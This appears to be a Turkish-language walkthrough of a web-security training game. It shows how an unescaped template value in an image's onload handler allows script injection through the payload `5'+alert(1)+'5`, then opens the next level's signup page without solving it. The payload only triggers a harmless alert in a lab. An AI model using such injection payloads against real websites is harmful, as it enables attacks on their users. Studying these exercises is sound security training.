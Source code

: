 Buradan anladığımıza göre loading.gif yüklendiğinde, startTimer fonksiyonu, parametre olarak gönderilen timer değeri ile çalıştırılacak.
startTimer() fonksiyonu kodları burada:
```html
<script>
  function startTimer(seconds) {
    seconds = parseInt(seconds) || 3;
    setTimeout(function() { 
      window.confirm("Time is up!");
      window.history.back();
    }, seconds * 1000);
  }
</script>
```

Burada baktığımızda parametre olarak gönderilen seconds, sonradan `seconds = parseInt(seconds) || 3;` statement'i ile 3'e ya da integer değerine atanıyor.
Yani bu fonksiyon doğru çalışıyor ve fonksiyonda bir şey aramayacağız. Zaafiyet arayacağımız yer burası:

```html
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
```

Eğer `5'+alert(1)+'5` değerini gönderirsek bu html şuna dönüşecektir:

```html
<img src="/static/loading.gif" onload="startTimer('5'+alert(1)+'5');" />
```

Böylece startTimer() fonksiyonuna gönderilen parametre 5 + undefined + 5 olacak.

![resim](https://i.ibb.co/2jgfQ0Z/resim.png)

Kullandığımız payload: `5'+alert(1)+'5`

Anahtar kelime: `DOM based XSS`

## Level 5

![resim](https://i.ibb.co/Zf6x3W4/resim.png)

Burada signup.html'i incelersek:

```html
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
  </head>
 
  <body id="level5">
    <img src="/static/logos/level5.png" /><br><br>
    <!-- We're ignoring the email, but the poor user will never know! -->
    Enter email: <input id="reader-email" name="email" value="">
 
    <br><br>
    <a href="{{ next }}">Next >></a>
  </body>
</html>
```
